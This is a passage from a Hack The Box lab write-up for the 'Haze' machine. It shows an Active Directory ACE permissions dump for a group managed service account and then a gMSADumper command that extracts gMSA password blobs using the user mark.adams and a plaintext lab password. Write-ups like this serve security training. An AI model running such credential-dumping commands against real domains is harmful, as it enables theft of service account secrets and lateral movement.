 ```powershell
f3a64788-5306-11d1-a9c5-0000f80367c1;;PS)(OA;;SW;72e39547-7b18-11d1-adef-00c04fd8d5cd;;PS)(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)(OA;;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;CA)(OA;;WP;888eedd6-ce04-df40-b462-b8a50e41
ba38;;S-1-5-21-323145914-28650650-2368316563-1107)(OA;CIIOID;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIIOID;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIO
ID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIIOID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-4
5bc-9b07-ad6f015e5f28;RU)(OA;CIIOID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIIOID;RP;59ba2f42-79a2-11d0-
9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIIOID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;RU)
(OA;CIID;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-323145914-28650650-2368316563-526)(OA;CIID;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-323145914-28650650-2368316563-527)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba
;bf967a86-0de6-11d0-a285-00aa003049e2;CO)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a86-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIOID;RP;b7c
69e6d-2cc7-11d2-854e-00a0c983f608;bf967a9c-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967aba-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIOID;WP;ea1b7b93-5e48-46d5-bc6c-4df4fda78a35;bf967a86-0de6-11d0-a285-
00aa003049e2;PS)(OA;CIIOID;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIIOID;LCRPLORC;;bf967a9c-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;OICIID;RPWP;3f78c3e5-f79a-46bd-a0b8-9
d18116ddc79;;PS)(OA;CIID;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)(A;CIID;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-323145914-28650650-2368316563-519)(A;CIID;LC;;;RU)(A;CIID;CCLCSWRPWPLOCRSDRCWDWO;;;BA)
```

*Used to examine the effective permissions (ACE entries) for the gMSA. You confirmed that the `gMSA_Managers` group — and thus possibly `mark.adams` — has **Allow** permissions.*

### Exploitation

[https://github.com/micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)

→ Reads any gMSA password blobs the user can access and parses the values.

Uses gMSADumper to try dumping gMSA passwords accessible by user 'mark.adams' in the haze.htb domain

```bash
python3 gMSADumper.py -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -d haze.htb -l dc01.haze.htb
```

![Screenshot 2025-03-31 at 8.33.14 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.33.14_PM.png)
